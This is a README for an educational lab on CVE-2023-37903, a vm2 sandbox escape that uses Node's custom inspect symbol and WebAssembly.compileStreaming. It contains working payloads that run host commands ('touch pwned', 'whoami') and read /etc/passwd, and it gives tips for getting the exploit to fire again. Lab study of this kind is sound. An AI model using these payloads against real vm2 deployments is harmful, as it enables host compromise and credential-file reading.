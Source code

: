 # vm2 Sandbox Escape Lab (CVE-2023-37903)

## Overview

This educational lab demonstrates the **CVE-2023-37903** vulnerability in vm2@3.9.19, which allows attackers to escape the sandbox and execute arbitrary code on the host system.

## How the Vulnerability Works

The vulnerability exploits Node.js's custom inspect function mechanism:

1. **Custom Inspect Function**: Node.js allows objects to define custom inspect functions via `Symbol.for('nodejs.util.inspect.custom')`
2. **Cross-Realm Access**: This symbol is available across different execution contexts
3. **Function Leakage**: The `inspect` function from the host context can be leaked into the sandbox
4. **Host Access**: The leaked `inspect` function has access to the host's `process` object
5. **Sandbox Escape**: By triggering `WebAssembly.compileStreaming()` with a malformed object, the custom inspect function is executed, allowing sandbox escape

### Example Payloads

#### Basic Sandbox Escape
```javascript
const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');

obj = {
    [customInspectSymbol]: (depth, opt, inspect) => {
        inspect.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
    },
    valueOf: undefined,
    constructor: undefined,
}

WebAssembly.compileStreaming(obj).catch(()=>{});
```

#### Command Execution
```javascript
const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');

obj = {
    [customInspectSymbol]: (depth, opt, inspect) => {
        return inspect.constructor('return process')().mainModule.require('child_process').execSync('whoami');
    },
    valueOf: undefined,
    constructor: undefined,
}

WebAssembly.compileStreaming(obj).catch(()=>{});
```

#### File System Access
```javascript
const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');

obj = {
    [customInspectSymbol]: (depth, opt, inspect) => {
        return inspect.constructor('return process')().mainModule.require('fs').readFileSync('/etc/passwd', 'utf8');
    },
    valueOf: undefined,
    constructor: undefined,
}

WebAssembly.compileStreaming(obj).catch(()=>{});
```

## Common Issues & Solutions

### "Identifier already declared" Error

**Why this happens:**
- vm2 sandbox maintains a **persistent global context** between executions
- Variables declared with `const` or `let` remain in the global scope
- `Symbol.for()` always returns the same symbol across executions
- The sandbox doesn't automatically clear variables between `vm.run()` calls

**Technical Explanation:**
```javascript
// First execution:
const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');
// ✅ Works fine

// Second execution (same sandbox):
const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');
// ❌ Error: Identifier 'customInspectSymbol' has already been declared
```

**Why clearing doesn't work:**
- `delete global.customInspectSymbol` fails because `const` variables can't be deleted
- vm2 sandbox has limitations on global variable manipulation
- The sandbox context persists until the VM instance is destroyed

**Solutions:**
1. **Restart the server** - This creates a fresh VM instance
2. **Use different variable names** - Each execution uses unique names
3. **Use IIFE scope** - Wrap code in `(() => { ... })()` to avoid global scope
4. **Use function wrappers** - Encapsulate code in functions

### 🔧 Practical Workarounds

**Method 1: Dynamic Variable Names**
```javascript
const timestamp = Date.now();
const dynamicSymbol = Symbol.for('nodejs.util.inspect.custom');
// Use timestamp to ensure uniqueness
```

**Method 2: IIFE Scope**
```javascript
(() => {
    const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');
    // Your payload here
})();
```

**Method 3: Function Wrapper**
```javascript
function executePayload() {
    const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');
    // Your payload here
}
executePayload();
```

**Why it shows success but doesn't execute:**
1. **Scope issue**: `obj` is not properly declared
2. **Execution context**: The custom inspect function might not be triggered
3. **Error handling**: `WebAssembly.compileStreaming()` catches errors silently

### 🛠️ Troubleshooting Guide

**Problem**: Getting "Identifier already declared" error repeatedly
**Root Cause**: vm2 sandbox persistence
**Best Solution**: Restart the server

**Problem**: Sandbox management methods don't work
**Explanation**: vm2 sandbox limitations prevent variable deletion
**Solution**: Use server restart or IIFE scope

**Problem**: Exploit works once but fails on retry
**Cause**: Global variable conflicts in persistent sandbox
**Fix**: Always restart server between tests

**Problem**: Different payloads interfere with each other
**Reason**: Shared global scope in vm2 sandbox
**Workaround**: Use unique variable names or restart server



## References

- [CVE-2023-37903 Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-37903)
- [vm2 GitHub Repository](https://github.com/patriksimek/vm2)
- [Node.js util.inspect.custom Documentation](https://nodejs.org/api/util.html#utilinspectcustom)
- [WebAssembly.compileStreaming Documentation](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/WebAssembly/compileStreaming)


## License

Apache License 2.0 - See LICENSE file for details

**Remember**: This lab is for educational purposes only. Use responsibly and ethically!
